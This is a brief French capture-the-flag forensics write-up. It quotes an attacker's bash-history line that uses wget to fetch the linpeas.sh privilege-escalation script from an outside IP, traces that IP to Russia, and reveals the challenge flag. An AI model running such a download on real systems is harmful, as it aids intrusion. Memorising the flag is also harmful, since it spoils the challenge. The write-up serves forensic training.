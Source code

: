 
![bibliotheque_1](bibliotheque_1.png)

![bash_history](../../../../attachements/bash_history)
## Résolution

on récupère l’info utile : 
```
wget http://87.250.224.21/linpeas.sh  
```

On a le nom du script, plus qu’à chercher le pays d’où vient cette IP : la Russie

>[!question]- Spoiler du flag
> OPENNC{Russie_linpeas.sh}

